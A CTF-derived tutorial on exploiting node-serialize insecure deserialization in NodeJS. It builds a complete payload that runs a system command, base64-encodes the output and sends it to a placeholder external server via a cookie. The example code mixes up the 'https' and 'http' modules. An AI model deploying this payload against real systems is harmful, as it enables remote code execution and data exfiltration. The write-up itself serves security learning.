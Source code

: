 ## NodeJS Insecure Deserialization Out-Of-Band Exfiltration

### Introduction

If you find a vulnerability that allows you to run NodeJS code but you're unable to see the results, then you could use this exploitation technique to exfiltrate the data or the system commands output through an indirect channel (Out of Band). 

This exploitation techniques is one of the many ways you can see the output of executed commands, but I happen to come up with this technique during solving a web challenge in a CTF.

In my case, an Insecure Deserialization vulnerability in NodeJS that allowed me to execute NodeJS code. 

---

### Serialization and Deserialization

Serialization is the process of converting an object into a stream of bytes to store the object or transmit it to memory, a database, or a file. 
Its main purpose is to save the state of an object in order to be able to recreate it when needed.

Deserialization is the reverse process.

### Insecure Deserialization

The vulnerability occurs in the deserialization process when the serialized data is controlled by the user. If a user provides malicious data it will be executed by the back-end technology.

### The Hot Spot

The hot spot in the application was the cookie value. It was a base64 encoded serialized object, after playing with the cookie, removing, adding and changing different values in the object it returned an error showing me that the application is using NodeJS and specifically the node-serialize NodeJS module used in the serialization process.

It was pretty much similar to this blog post: https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/

The cookies passed to `unserialize()` function which could be exploited to achieve Remote Code Execution.  

### Serialization and Deserialization in NodeJS

An Object in JavaScript is determined by curly braces, like this { property : "value" }

A serialized object in NodeJS will differ depending on the property and the value, so if you serialize the above object it would look like {"property" : "value"}, but if you change the value to a function instead of a string, like { rce : function(){console.log("Hello");} }

And it will look like this:

```javascript
{ "rce" : "_$$ND_FUNC$$_function(){console.log(\\"Hello\\");}" }
```

But in order for the unserialize() function to execute this code, we're going to use the Immediately Invoked Function Expression, which is a JavaScript thing that allows us to call or invoke the function, in our case in the serialized object. All we need to do is to add parentheses () after the body of the function. 

```javascript
{ "rce" : "_$$ND_FUNC$$_function(){console.log(\\"Hello\\");}()" }
```

<img src="https://raw.githubusercontent.com/Th3Mind/assets/main/IIFE.png" />

To serialize objects in nodejs, download node and npm on your machine, install node-serialize module with npm, require the module in your code, then use the required module's serialize(obj) method to serialize an object.

Now that we know we can execute JavaScript code, let's build the OOB exploitation payload.

#### Requirements

- An external http server ( BurpSuite Collaborator for example ) to recieve the data, in our case the output of executed system commands.
- NodeJS modules for building the payload: node:child_process, https, node-serialize


### Hack Steps

1. Execute system commands in NodeJS
2. Base64 encode the executed command's output ( To ensure the NodeJS doesn't return exceptions while sending data that include special characters and spaces to an external website )
3. Send the base64 encoded data as a query string to the external http server.

#### Executing System Commands in NodeJS

```javascript
var { exec } = require('node:child_process')

// run the `ls` command
exec('ls', (err, output) => {
    // Do stuff with output 
    if (err) {
        // log and return if we encounter an error
        console.error("could not execute command: ", err)
        return
    }
    console.log("Output: \n", output)
})
```

#### Base64 Encoding in NodeJS 

Buffers can be used for taking a string or piece of data and doing Base64 encoding of the result. And because Buffers are global objects there's no need for a require.

```javascript
let data = "commandsoutput";
let buff = new Buffer(data);
let base64data = buff.toString('base64');
```

#### Sending HTTP requests in NodeJS 

https://www.geeksforgeeks.org/how-to-make-http-requests-in-node-js/

```javascript
// Importing https module
const https = require('https');
  
// Setting the configuration for
// the request
const options = {
    hostname: '',
    path: '/posts',
    method: 'GET'
};
    
// Sending the request
const req = http.request(options, (res) => {
    let data = ''
     
    res.on('data', (chunk) => {
        data += chunk;
    });
    
    // Ending the response 
    res.on('end', () => {
        console.log('Body:', JSON.parse(data))
    });
       
}).on("error", (err) => {
    console.log("Error: ", err)
}).end()
```
### Payload

So, now we're going to combine all of the above to form our payload with respect to the Hack Steps above.

The final paylaod after serializing will look like this: 

```javascript
{"rce":"_$$ND_FUNC$$_function(){ var { exec } = require('node:child_process'); exec('uname', (err, output) => {let buff = new Buffer(output); let base64data = buff.toString('base64');var https = require('https'); var options = {hostname: 'YOUR_EXTERNAL_EXPLOIT_SERVER.com',path: '/?b64='+base64data, method: 'GET'};var req = http.request(options, (res) => {console.log(\\"done\\")}).end()})}()"}
```

After I base64 encoded the above payload and sent it to the server through the cookie, I got the uname command output in my exploit server!

#### Extra Step

As an extra step, you can send the data to a php script you've written to automatically take the parameter value and decode it from base64.

### Thank you!

Thanks for reading this post, I hope it was a helpful read :)! 

